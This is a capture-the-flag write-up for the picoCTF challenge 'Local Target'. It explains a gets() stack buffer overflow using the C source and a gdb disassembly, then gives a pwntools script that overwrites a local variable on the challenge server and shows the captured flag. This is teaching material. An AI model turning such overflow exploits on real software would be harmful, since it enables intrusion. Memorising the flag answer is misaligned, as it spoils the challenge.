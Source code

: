 # Local Target

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 100

# Challenge

## Description

Smash the stack
Can you overflow the buffer and modify the other local variable? The program is available [here](./local-target). You can view source [here](./local-target.c). And connect with it using:
`nc saturn.picoctf.net 50983`

## Source

[local-target.c](./local-target.c) (C source)  
[local-target](./local-target) (64-bit ELF)

# Solution

Let's look at the given source code:

```c
int main(){
  // ...
  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  // ...
  gets(input);
  // ...
  
  printf("num is %d\n", num);
  // ...
  
  if( num == 65 ){
    printf("You win!\n");
    // Prints the flag
  }
  // ...
}
```

The program reads a string from the user, into a buffer of size 16, and then prints the value of `num`. If `num` is 65, the flag is printed. The program use `gets()` to read the string, which is vulnerable to [buffer overflow](/Guides/Vulnerabilities/Buffer%20Overflow%20Vulnerability.md). Let's look at the relative positions of the local variables on the stack:

```bash
$ gdb ./local-target
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x20
   0x0000000000401242 <+12>:    mov    DWORD PTR [rbp-0x8],0x40
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdb4]        # 0x402004
   0x0000000000401250 <+26>:    mov    eax,0x0
   0x0000000000401255 <+31>:    call   0x4010f0 <printf@plt>
   0x000000000040125a <+36>:    mov    rax,QWORD PTR [rip+0x2e0f]        # 0x404070 <stdout@@GLIBC_2.2.5>
   0x0000000000401261 <+43>:    mov    rdi,rax
   0x0000000000401264 <+46>:    call   0x401120 <fflush@plt>
   0x0000000000401269 <+51>:    lea    rax,[rbp-0x20]
   0x000000000040126d <+55>:    mov    rdi,rax
   0x0000000000401270 <+58>:    mov    eax,0x0
   0x0000000000401275 <+63>:    call   0x401110 <gets@plt>
   ...
End of assembler dump.
```

We can see from line `<+12>` that `num` is at `[rbp-0x8]`, as it is being set with `0x40`, which is `64` in decimal. We can also see that the address of `[rbp-0x20]` is being passed to `gets()`, so it is the address of `input`.  Now we can know how much we need to overflow the buffer, in order to overwrite `num`. We need to write `0x20 - 0x8` bytes, and then write `65` to `num`. Let's use [pwntools](/Guides/Tools/pwntools.md) for that:

```python
from pwn import *

conn = remote('saturn.picoctf.net', 50983)

conn.sendlineafter(b'string: ', b'A' * (0x20 - 0x8) + p32(65))
conn.recvuntil(b'You win!\n')
flag = conn.recvline(False).decode()

print('Flag:', flag)
```

```
picoCTF{l0c4l5_1n_5c0p3_fee8ef05}
```

**The Flag:** `picoCTF{l0c4l5_1n_5c0p3_fee8ef05}`
